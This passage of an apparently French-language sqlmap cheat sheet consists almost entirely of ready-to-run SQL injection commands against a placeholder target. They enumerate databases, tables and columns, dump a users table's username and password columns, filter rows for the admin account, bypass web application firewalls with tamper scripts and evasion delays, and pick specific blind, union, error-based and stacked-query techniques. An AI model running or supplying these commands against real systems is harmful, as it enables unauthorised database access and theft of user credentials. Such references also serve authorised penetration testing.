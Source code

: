### Exploration de structure
```bash
# Tables d'une base spécifique
sqlmap -u "http://target.com/page?id=1" -D database_name --tables

# Colonnes d'une table
sqlmap -u "http://target.com/page?id=1" -D database_name -T users --columns

# Schema complet
sqlmap -u "http://target.com/page?id=1" -D database_name --schema
```

### Extraction de données
```bash
# Dump d'une table complète
sqlmap -u "http://target.com/page?id=1" -D database_name -T users --dump

# Colonnes spécifiques
sqlmap -u "http://target.com/page?id=1" -D database_name -T users -C "username,password" --dump

# Avec conditions WHERE
sqlmap -u "http://target.com/page?id=1" -D database_name -T users --where="username='admin'" --dump
```

## 🎯 Techniques Avancées

### Bypass de WAF et filtres
```bash
# Tamper scripts pour WAF bypass
sqlmap -u "http://target.com/page?id=1" --tamper=space2comment
sqlmap -u "http://target.com/page?id=1" --tamper=charencode,randomcase

# Multiples tamper scripts
sqlmap -u "http://target.com/page?id=1" --tamper=between,charencode,charunicodeencode

# Délais et threads
sqlmap -u "http://target.com/page?id=1" --delay=3 --threads=1
```

### Techniques d'injection spécifiques
```bash
# Union-based seulement
sqlmap -u "http://target.com/page?id=1" --technique=U

# Boolean-based blind
sqlmap -u "http://target.com/page?id=1" --technique=B

# Time-based blind
sqlmap -u "http://target.com/page?id=1" --technique=T

# Error-based
sqlmap -u "http://target.com/page?id=1" --technique=E

# Stacked queries
sqlmap -u "http://target.com/page?id=1" --technique=S
```

